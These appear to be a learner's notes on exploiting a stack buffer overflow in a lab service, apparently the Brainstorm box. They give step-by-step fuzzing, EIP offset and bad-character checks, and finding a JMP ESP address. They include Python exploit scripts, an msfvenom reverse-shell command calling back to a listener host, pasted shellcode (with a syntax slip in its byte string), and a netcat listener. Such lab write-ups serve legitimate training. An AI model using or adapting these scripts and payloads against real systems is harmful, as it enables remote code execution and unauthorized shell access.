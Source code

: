 Need to come back and expand on this

https://github.com/milesrack/bufferoverflowprep?tab=readme-ov-file


- `ltrace` : library call tracer
- `strings` : can see string that are visible in a binary

# gdb


# Brainstorm walkthrough

Generate a reference pattern with a specified length to fuzz with.
`msf-pattern_create -l 50000`

Grab the number from the EIP register inside immunity debugger. In this case `31704330` and query for the offset number.
1. `msf-pattern_offset -l 5000 -q 31704330`
2. `[*] Exact match of offset 2012`
This means that the 2013 byte that we send will be into the return pointer "EIP"

Python script to automate sending data to the program. Can verify that the B's are showing up in the EIP register.
```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"B" * 4

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```


Need to check for "badchars". Once you send to Immunity debugger then right-click on the ESP and click follow in dump. Bottom left pane then check if there are any missing or blurred characters.
```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + badchars + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

In bottom command line of immunity debugger run `!mona modules`. This will pop up a windows to check for security measures. Can also run `!mona find -s "\xff\xe4" -m essfunc.dll` to check for a jump esp.

![](../Assets/images/immunity-follow-button.png)
Search for the "JMP ESP". Click on it and hit *F2* to set a breakpoint so that when you run the script below on the app it will break at that point.

```python

import socket
import sys

username = b"blah"
message = b"A" * 2012 + b"\xdf\x14\x50\x62"
# "jump address written backwards to replace the B's"
payload = b""

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

Generate payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.4.42 LPORT=7777 -b "\x00" -f c
```

Add payload to script
```python

import socket
import sys

username = b"blah"
# added padding after return
message = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
# add payload from venom
payload = b"\xdb\xce\xd9\x74\x24\xf4\x5a\xbd\x19\x15\xae\x4c\x29\xc9"
b"\xb1\x52\x31\x6a\x17\x83\xea\xfc\x03\x73\x06\x4c\xb9\x7f"
b"\xc0\x12\x42\x7f\x11\x73\xca\x9a\x20\xb3\xa8\xef\x13\x03"
b"\xba\xbd\x9f\xe8\xee\x55\x2b\x9c\x26\x5a\x9c\x2b\x11\x55"
b"\x1d\x07\x61\xf4\x9d\x5a\xb6\xd6\x9c\x94\xcb\x17\xd8\xc9"
b"\x26\x45\xb1\x86\x95\x79\xb6\xd3\x25\xf2\x84\xf2\x2d\xe7"
b"\x5d\xf4\x1c\xb6\xd6\xaf\xbe\x39\x3a\xc4\xf6\x21\x5f\xe1"
b"\x41\xda\xab\x9d\x53\x0a\xe2\x5e\xff\x73\xca\xac\x01\xb4"
b"\xed\x4e\x74\xcc\x0d\xf2\x8f\x0b\x6f\x28\x05\x8f\xd7\xbb"
b"\xbd\x6b\xe9\x68\x5b\xf8\xe5\xc5\x2f\xa6\xe9\xd8\xfc\xdd"
b"\x16\x50\x03\x31\x9f\x22\x20\x95\xfb\xf1\x49\x8c\xa1\x54"
b"\x75\xce\x09\x08\xd3\x85\xa4\x5d\x6e\xc4\xa0\x92\x43\xf6"
b"\x30\xbd\xd4\x85\x02\x62\x4f\x01\x2f\xeb\x49\xd6\x50\xc6"
b"\x2e\x48\xaf\xe9\x4e\x41\x74\xbd\x1e\xf9\x5d\xbe\xf4\xf9"
b"\x62\x6b\x5a\xa9\xcc\xc4\x1b\x19\xad\xb4\xf3\x73\x22\xea"
b"\xe4\x7c\xe8\x83\x8f\x87\x7b\x6c\xe7\x83\x51\x04\xfa\x8b"
b"\xbb\xb5\x73\x6d\xa9\x25\xd2\x26\x46\xdf\x7f\xbc\xf7\x20"
b"\xaa\xb9\x38\xaa\x59\x3e\xf6\x5b\x17\x2c\x6f\xac\x62\x0e"
b"\x26\xb3\x58\x26\xa4\x26\x07\xb6\xa3\x5a\x90\xe1\xe4\xad"
b"\xe9\x67\x19\x97\x43\x95\xe0\x41\xab\x1d\x3f\xb2\x32\x9c"
b"\xb2\x8e\x10\x8e\x0a\x0e\x1d\xfa\xc2\x59\xcb\x54\xa5\x33"
b"\xbd\x0e\x7f\xef\x17\xc6\x06\xc3\xa7\x90\x06\x0e\x5e\x7c"
b"\xb6\xe7\x27\x83\x77\x60\xa0\xfc\x65\x10\x4f\xd7\x2d\x20"
b"\x1a\x75\x07\xa9\xc3\xec\x15\xb4\xf3\xdb\x5a\xc1\x77\xe9"
b"\x22\x36\x67\x98\x27\x72\x2f\x71\x5a\xeb\xda\x75\xc9\x0c"
b"\xcf""

try:
	print("Sending payload...")
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.8.34',9999))
	s.recv(1024)
	s.recv(1024)
	s.send(username + b'\r\n')
	s.recv(1024)
	s.send(message + b'\r\n')
	s.recv(1024)
	s.close()
except:
	print("Cannot connect to the server")
	sys.exit()
```

run netcat listener and then run the shell should give the connection.
`nc -lnvp 7777`

